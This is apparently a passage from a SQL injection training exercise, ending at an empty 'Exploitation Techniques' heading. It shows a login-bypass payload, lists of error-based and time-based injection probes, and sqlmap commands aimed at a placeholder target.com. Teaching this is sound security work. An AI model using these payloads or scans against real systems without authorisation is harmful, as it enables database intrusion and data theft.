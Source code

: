 Attack payload:
```
Username: admin' --
Password: anything
```

Resulting query:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'anything'
```

## Part 2: Identifying SQL Injection Points

### Exercise 2.1: Manual Testing
Test for SQL injection vulnerabilities:
```
# Basic tests
' 
"
') 
") 
')) 
"))

# Error-based detection
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' #
' OR 1=1 --

# Time-based detection
'; WAITFOR DELAY '00:00:05' --
' OR SLEEP(5) --
```

### Exercise 2.2: Using SQLMap
Automated SQL injection testing:
```bash
# Basic scan
sqlmap -u "http://target.com/page.php?id=1"

# POST request
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test"

# Cookie-based
sqlmap -u "http://target.com/page.php" --cookie="PHPSESSID=abcd1234"

# Full scan
sqlmap -u "http://target.com/page.php?id=1" --batch --random-agent
```

## Part 3: Exploitation Techniques
